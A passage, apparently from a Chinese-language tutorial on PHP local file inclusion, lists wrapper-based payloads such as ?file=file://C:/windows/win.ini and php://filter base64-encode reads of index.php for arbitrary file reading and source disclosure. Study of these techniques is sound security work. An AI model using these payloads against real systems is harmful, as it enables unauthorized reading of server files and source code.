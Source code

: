 |data://| >=5.2|`on`| `on`| `?file=compress.zlib://file.bz2` 或 `?file=compress.zlib://C:/phpStudy/PHPTutorial/WWW/flle.bz2`


php.ini配置文件：

> `allow_url_fopen=off` 即不可以包含远程文件。php4存在远程包含&本地包含，php5仅存在本地包含

## 利用方法

### PHP伪协议

#### file

> 利用`file`协议执行任意文件读取：

代码实例：
```
?file=file://C:/windows/win.ini
```

![](img/2.png)

#### php://filter

> 利用`php://filter`查看源代码：

`php://filter`是一种元封装器，设计用于数据流打开时的筛选过滤应用；在文件包含中用于读取文件内容，读取后输出`base64编码`后的内容，要获取真实内容的话，`需要进行base64解码`

代码实例：

```
?file=php://filter/read=convert.base64-encode/resource=index.php
?file=php://filter/convert.base64-encode/resource=../sss.php
```
